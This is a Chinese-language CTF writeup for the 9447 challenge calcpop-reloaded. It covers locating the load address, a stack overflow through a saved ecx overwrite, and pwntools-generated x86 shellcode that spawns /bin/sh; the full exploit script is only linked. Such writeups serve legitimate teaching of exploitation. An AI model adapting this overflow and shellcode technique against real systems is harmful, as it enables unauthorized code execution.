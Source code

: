 ```yaml
---
title: 'Writeup-9447 CTF: calcpop-reloaded'
date: 2015-12-04
tags: [Hack, CTF, Writeup, Exploitation]
---
```


*从这一题开始，9447 加上了 POW, 其实只要爆破就可以，这里就不放脚本了。（关于 POW, 有个叫 hashcash 的东西，挺有意思的）*

这道题我没有在比赛期间做出来。当时完全没有逆向 load address 未知的二进制的经验，什么都干不了。后来简单看了别人的 writeup，在只知道逆向方法的情况下重新做出了这题。前后大概还是花了七八小时（我好渣...），硬着头皮写篇 writeup 记录一下。

## Load Address
找 load address 的过程大概是先用 radare 打开，然后翻反汇编代码，可以找到`mov eax, 0x1007a7`这类代码，大概可以猜出 load address 在 0x100000.

用 IDA 打开，填好 load offset, 开始调试。可以猜出 main 函数(?)的位置大概在 0x1008bc.

## Overflow
接下来找溢出点。可以看到 0x001008EE 处调用了输入函数，分配栈空间是 0x98, 但是传递了一个大概是 size 的参数，值为 0x100. 存在溢出。

这题和 calcpop 有一点不同的是，calcpop 中输入 exit 会直接退出 main 函数，这题输入 exit 会调用`shutdown()`之类的函数，没细看，效果就是不会再有输出了。这道题退出 main 函数的方法是，正确输入，让计算结果为 201527, 程序会输出彩蛋信息，然后退出 main 函数。

接下来就是怎么溢出了，先看 main 函数入口和出口处的栈变化：
```nasm
; entry:
lea     ecx, [esp-4]
and     esp, 0FFFFFFF0h
push    dword ptr [ecx-4]
push    ebp
mov     ebp, esp
push    edi
push    esi
push    ebx
push    ecx

; exit:
lea     esp, [ebp-10h]
xor     eax, eax
pop     ecx
pop     ebx
pop     esi
pop     edi
pop     ebp
lea     esp, [ecx-4]
retn
```

溢出到保存 ecx 的位置，使 ecx - 4 指向存有 shellcode 地址的栈位置，然后 ret 就能跳转到 shellcode.

## Shellcode
这题怎么写 shellcode 也是一个难点，因为系统是 9447 写的，不能直接用 execv 系统调用。所幸的是本题的系统调用功能都是能从一些字符串上看出来的。比如`read(%d %x %d)`, `write(%d %x %d)`之类。strings 一下可以看到`spawn(%x %x %d)`，我就猜测这个是类似 execv 的系统调用。可是参数不明确，特别是第三个参数。试了几次，发现用`spawn("/bin/sh", "/bin/sh", 1)`这样的参数是可以成功的，第三个参数 1 具体是什么含义，我也没搞明白。

用 pwntool 生成的 shellcode 如下:
```nasm
; push '/bin/sh\x00'
push 0x1010101
xor dword ptr [esp], 0x169722e
push 0x6e69622f
mov edi, esp

push 0x1
push edi
push edi
push 0xdeadbeef  ; junk
mov ebx, 302125832
xor ebx, 0x12121212
call ebx  ; spawn(%x, %x, %d)
```

## exp.py

可以用 redos 中的 level1 本地调试。

{% gist cubarco/b4aee1ac22f1b3039d30 %}
